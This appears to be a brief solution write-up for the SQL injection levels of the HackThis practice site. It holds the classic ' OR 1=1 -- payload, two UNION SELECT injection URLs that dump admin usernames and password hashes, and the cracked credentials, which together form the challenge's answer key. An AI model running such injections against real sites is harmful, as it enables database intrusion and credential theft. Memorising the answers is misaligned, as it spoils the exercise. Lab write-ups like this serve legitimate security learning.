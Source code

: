 ### SQLi Level 1
```
' OR 1=1 --
```

### SQLi Level 2
https://www.hackthis.co.uk/levels/sqli/2?browse&q='UNION ALL SELECT username, password FROM members WHERE admin=1--

=> bellamond

https://www.hackthis.co.uk/levels/sqli/2?browse&q=' UNION SELECT password,2 from members where admin=1 --

1b774bc166f3f8918e900fcef8752817bae76a37 => sup3r
```
bellamond/sup3r
```